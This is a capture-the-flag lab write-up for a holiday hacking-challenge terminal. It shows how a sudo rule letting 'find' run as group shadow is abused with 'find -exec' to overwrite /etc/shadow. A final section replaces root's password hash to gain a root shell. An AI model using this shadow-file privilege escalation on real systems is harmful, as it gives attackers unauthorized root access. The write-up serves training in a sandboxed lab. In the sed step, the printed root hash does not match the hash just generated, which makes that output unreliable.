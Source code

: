 * Answer Template
  :PROPERTIES:
  :CUSTOM_ID: answer-template
  :END:

** Question
   :PROPERTIES:
   :CUSTOM_ID: question
   :END:

#+BEGIN_EXAMPLE
                -->*<--
                  /o\
                 /_\_\
                /_/_0_\
               /_o_\_\_\
              /_/_/_/_/o\
             /@\_\_\@\_\_\
            /_/_/O/_/_/_/_\
           /_\_\_\_\_\o\_\_\
          /_/0/_/_/_0_/_/@/_\
         /_\_\_\_\_\_\_\_\_\_\
        /_/o/_/_/@/_/_/o/_/0/_\
       jgs       [___]  


    My name is Shinny Upatree, and I've made a big mistake.
    I fear it's worse than the time I served everyone bad hake.
    I've deleted an important file, which suppressed my server access.
    I can offer you a gift, if you can fix my ill-fated redress.

    Restore /etc/shadow with the contents of /etc/shadow.bak, then run "inspect_da_box" to complete this challenge.
    Hint: What commands can you run with sudo?
#+END_EXAMPLE

** How to find the terminal
   :PROPERTIES:
   :CUSTOM_ID: how-to-find-the-terminal
   :END:

Where was the terminal?

https://docker2017.holidayhackchallenge.com/?challenge=a9d07a00-55bc-4391-a02b-71f3c4f1ec44&uid=USER_ID

** Background Information
   :PROPERTIES:
   :CUSTOM_ID: background-information
   :END:

We're logged in as the user =elf=. We happen to know that
=/etc/shadow= is where *NIX systems store the password hashes for
their users.

The system MOTD gives us a hint:

#+BEGIN_QUOTE
What commands can you run with sudo?
#+END_QUOTE

We also know that =sudo= is a program that allows us to run commands with the privileges of other users and/or groups.

** Goal
   :PROPERTIES:
   :CUSTOM_ID: goal
   :END:

We need to overwrite /etc/shadow with /etc/shadow.bak. Basically we
need to ~cp /etc/shadow.bak /etc/shadow~, except that we don't have
permissions to do that directly:

#+BEGIN_SRC sh
elf@40a64f5e12a2:~$ cp /etc/shadow.bak /etc/shadow
cp: cannot create regular file '/etc/shadow': Permission denied
#+END_SRC

** Approach
   :PROPERTIES:
   :CUSTOM_ID: approach
   :END:

If we follow the hint, we should try to figure out what commands we can run with sudo. Let's run ~sudo -h~ to view the help documentation:

#+BEGIN_EXAMPLE
sudo - execute a command as another user
...
  -l, --list                  list user's privileges or check a specific command; use twice for longer format
...
#+END_EXAMPLE

To follow the hint, we should run sudo with the ~--list~ option, to see what our privileges are:

#+BEGIN_SRC sh
elf@40a64f5e12a2:~$ sudo --list
Matching Defaults entries for elf on 40a64f5e12a2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elf may run the following commands on 40a64f5e12a2:
    (elf : shadow) NOPASSWD: /usr/bin/find
#+END_SRC

We can run the find command, but it also mentions something about shadow. Let's give it a shot:

#+BEGIN_SRC sh
elf@2100915cb450:~$ sudo find
[sudo] password for elf: 
#+END_SRC

We don't know the password. The sudo output said we should be able to
run this without a password ("NOPASSWD"). Something's not quite
right. We can run sudo with ~-l -l~ as the help output said to get
some more verbose output:

#+BEGIN_SRC sh
elf@2100915cb450:~$ sudo -l -l
Matching Defaults entries for elf on 2100915cb450:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elf may run the following commands on 2100915cb450:
Sudoers entry:
    RunAsUsers: elf
    RunAsGroups: shadow
    Options: !authenticate
    Commands:
        /usr/bin/find
#+END_SRC

Ok. So sudo lets us run the find command as the user elf, and the group shadow. Viewing ~sudo -h~ one more time shows us that there's an option we want to set our group to =shadow=:
#+BEGIN_EXAMPLE
  -g, --group=group           run command as the specified group name or ID
#+END_EXAMPLE

#+BEGIN_SRC sh
elf@2100915cb450:~$ sudo -g shadow find 
.
./.bashrc
./.bash_logout
./.profile
#+END_SRC

This time, sudo let us run find without prompting us for a
password. So, we know that we can run commands as the elf user, and
the shadow group. Is this enough to overwrite =/etc/shadow=?

#+BEGIN_SRC sh
elf@2100915cb450:~$ ls -l /etc/shadow
-rw-rw---- 1 root shadow 0 Dec 15 20:00 /etc/shadow
#+END_SRC

Yes. =/etc/shadow= is owned by the root user and the shadow group, and
the group has write permissions to it. At this point, the only thing
that's left is figuring out how to use =find= in order to copy
=/etc/shadow.bak= to =/etc/shadow=. =find= has an exec option:

#+BEGIN_EXAMPLE
actions: -delete -print0 -printf FORMAT -fprintf FILE FORMAT -print 
      -fprint0 FILE -fprint FILE -ls -fls FILE -prune -quit
      -exec COMMAND ; -exec COMMAND {} + -ok COMMAND ;
      -execdir COMMAND ; -execdir COMMAND {} + -okdir COMMAND ;
#+END_EXAMPLE

Let's give it a shot:
#+BEGIN_SRC sh
elf@2100915cb450:~$ sudo -g shadow find -exec cp /etc/shadow.bak /etc/shadow \;
#+END_SRC

Looks like that worked:

#+BEGIN_SRC sh
elf@2100915cb450:~$ inspect_da_box 
                     ___
                    / __'.     .-"""-.
              .-""-| |  '.'.  / .---. \
             / .--. \ \___\ \/ /____| |
            / /    \ `-.-;-(`_)_____.-'._
           ; ;      `.-" "-:_,(o:==..`-. '.         .-"-,
           | |      /       \ /      `\ `. \       / .-. \
           \ \     |         Y    __...\  \ \     / /   \/
     /\     | |    | .--""--.| .-'      \  '.`---' /
     \ \   / /     |`        \'   _...--.;   '---'`
      \ '-' / jgs  /_..---.._ \ .'\\_     `.
       `--'`      .'    (_)  `'/   (_)     /
                  `._       _.'|         .'
                     ```````    '-...--'`
/etc/shadow has been successfully restored!
#+END_SRC

** Solution
   :PROPERTIES:
   :CUSTOM_ID: solution
   :END:

A one-liner is:

#+BEGIN_SRC sh
sudo -g shadow find -exec cp /etc/shadow.bak /etc/shadow \; && inspect_da_box
#+END_SRC

AsciiCinema video of the solution?

** Common Pitfalls
   :PROPERTIES:
   :CUSTOM_ID: common-pitfalls
   :END:

=find='s exec syntax is a little weird, and a common mistake is forgetting to escape the semicolon at the end:

#+BEGIN_SRC sh
elf@2100915cb450:~$ sudo -g shadow find -exec cp /etc/shadow.bak /etc/shadow ;
find: missing argument to `-exec'
#+END_SRC

Another issue is just the fact that sudo is often set up for user
permissions, and not group permissions, so the =-g= flag is less well
known.

** Going Further - Privilege Escalation

This is neat, but let's elevate privileges to root on this
terminal. Our approach will be to put in a modified shadow file
instead, which will have a password we know for the root user.

First, let's generate the password hash in the right format:

#+BEGIN_SRC sh
elf@2100915cb450:~$ echo "password" | openssl passwd -1 -stdin
$1$wDLzsvsW$0.aZ24yCO8xhhjnfHUIG3/
#+END_SRC

Now that we have a hash, we'll use sed to modify the =/etc/shadow.bak=
file to have that for root's password. Remember to be careful in
escaping special characters in the sed command line.

#+BEGIN_SRC sh
elf@2100915cb450:~$ sed -e 's/root:\*/root:$1$wDLzsvsW$0.aZ24yCO8xhhjnfHUIG3/' /etc/shadow.bak | tee better.shadow
root:$1$WPvxfOOK$JqDBD/DPQlpkUBOC3qTp51:17484:0:99999:7:::
daemon:*:17484:0:99999:7:::
bin:*:17484:0:99999:7:::
sys:*:17484:0:99999:7:::
sync:*:17484:0:99999:7:::
games:*:17484:0:99999:7:::
...
#+END_SRC

Now, we re-run our find command, and find that we can escalate to root with a password of ~password~:

#+BEGIN_SRC sh
elf@2100915cb450:~$ sudo -g shadow find -exec cp better.shadow /etc/shadow \;
elf@2100915cb450:~$ su
Password: 
root@2100915cb450:/home/elf# id  
uid=0(root) gid=0(root) groups=0(root)
#+END_SRC
